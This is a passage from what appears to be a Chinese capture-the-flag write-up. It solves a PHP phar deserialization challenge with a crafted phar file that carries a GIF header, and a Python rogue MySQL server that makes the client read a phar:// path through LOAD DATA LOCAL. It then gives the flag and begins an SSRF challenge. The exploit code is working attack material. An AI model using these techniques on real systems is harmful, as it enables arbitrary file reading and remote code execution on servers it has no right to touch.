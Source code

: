 ```php
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($file);
$phar->addFromString("test.txt", "test");

$phar->stopBuffering();
echo urlencode(serialize($file));
?>
```
上传之后直接用MysqlRouge触发反序列化即可，
```python
coding=utf-8 
import socket
import logging
logging.basicConfig(level=logging.DEBUG)

filename="phar:////var/www/html/uploads/846c8ebb95a1fc1828e4fcc14a8902e0/b4bc4fd46f0e346f2bd105c93c5a1b20.jpg"
sv=socket.socket()
sv.bind(("",3309))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

payload：
```http
ip=ip:port&user=user&password=passsword&option=8
```

最后/readflag
```
flag：flag{bfa7ea9865f08c320abab5323a1b522c1}
```

## fmkq
审计代码发现可以构造SSRF
http://121.37.179.47:1101/?head=\&url=xxx.xxx.xxx.xxx
